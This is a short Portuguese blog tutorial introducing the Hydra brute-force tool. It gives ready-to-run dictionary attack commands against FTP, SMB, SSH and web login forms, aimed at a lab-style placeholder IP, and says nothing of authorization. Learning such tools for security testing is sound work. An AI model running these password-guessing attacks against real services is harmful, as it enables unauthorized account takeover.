 ```yaml
---
layout: post
title: Hydra Brute Force
author: 'Antony Leite'
date: 2020-07-22 12:00:00 -0300
lide: Uma pequena introdução a essa excelente ferramenta de Brute Force.
---
```


## Hydra Brute Force.

Basicamente o Hydra utiliza o método de brute force (tentativa e erro) para descobrir senhas. Ela faz uso de dicionários que contem diversas variedades e combinações de senhas e de logins. Essa ferramenta tem suporte para diversos protocolos, tais como FTP, SMB, SSH, MySQL, formulários web entre outros. Nesse breve introdução, vamos abordar o uso do Hydra nos serviços de FTP, SMB e SSH e formulário web.

Lembrando que você pode rodar o comando **`$ hydra -h`** que você ira ver a opção de ajuda do Hydra.

## Hydra FTP

FTP (*File Transfer Protocol*) é protocolo de transferência de arquivos. Um dos mais antigos em uso hoje em dia.

Para usar o Hydra em alguns serviço FTP basta seguir a sintaxe abaixo:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> ftp://10.10.10.10`**

Ou

**`hydra -l <usuário> -p <senha> ftp://10.10.10.10`**

|  Opção  | 	 	  Descrição            |
|---------|--------------------------------|
|   -l    | Setar um único usuário         |
|   -L    | Setar um dicionário de usuários|
|   -p    | Setar uma unica senha 	       |
|   -P 	  | Setar um dicionário de senhas  |

## Hydra SMB


SMB (*Server Message Block*) é é um protocolo para compartilhar arquivos, impressoras, portas seriais e abstrações de comunicações, um servidor cliente, protocolo de solicitação-resposta.

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 smb`**

|  Opção  | 	  	   Descrição           |
|---------|--------------------------------|
|   -L    | Setar um dicionário de usuários|
|   -P 	  | Setar um dicionário de senhas  |
| 	smb   | 	       Protocolo 	       |

## Hydra SSH

Secure Shell (*SSH*) é geralmente usado para acessar sistemas operacionais semelhantes ao Unix, mas também pode ser usado no Microsoft Windows. O Windows 10 usa o OpenSSH como seu cliente SSH padrão e servidor SSH.

Para usar o Hydra no serviço de SSH basta seguir a sintaxe abaixo:

**`$ hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 ssh`**

|  Opção  |   		  Descrição            |
|---------|--------------------------------|
|   -L    | Setar um dicionário de usuários|
|   -P 	  | Setar um dicionário de senhas  |
|   ssh   | 		 Protocolo 		       |

## Hydra Formulários Web

Podemos usar o Hydra para Brute Force em formulários web, porém você terá  que saber qual tipo de solicitação que o site esta fazendo, se é o método GET ou POST. Para você saber qual método o site está solicitando você pode fazer uso das ferramentas de desenvolvedor do seu navegador.

Você pode usar o seguinte comando para o método POST:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`**

|    	 Opção       | 		     Descrição             |
|--------------------|---------------------------------|
|         -L         | Setar um dicionário de usuários |
|   	  -P 	  	 | Setar um dicionário de senhas   |
|   http-post-form   | 		     Protocolo 	           |

E o seguinte comando para o método GET:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 http-get-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`**

|    	 Opção       | 	  	   	 Descrição             |
|--------------------|---------------------------------|
|         -L         | Setar um dicionário de usuários |
|   	  -P 	  	 | Setar um dicionário de senhas   |
|    http-get-form   | 	   		 Protocolo 	           |

#### Observação!

Saiba que você pode pode mesclar as opções, elas variam de acordo com sua necessidade. Vamos supor que você já tem o usuário do SSH e quer somente descobrir a senha, basta você usar seguinte comando:

**`$ hydra -l <usuário> -P <dicionário de senhas.txt> 10.10.10.10 ssh`**

|  Opção  |   		 Descrição             |
|---------|--------------------------------|
|   -l    | Setar um único usuário         |
|   -P 	  | Setar um dicionário de senhas  |
|   ssh   | 		 Protocolo 			   |
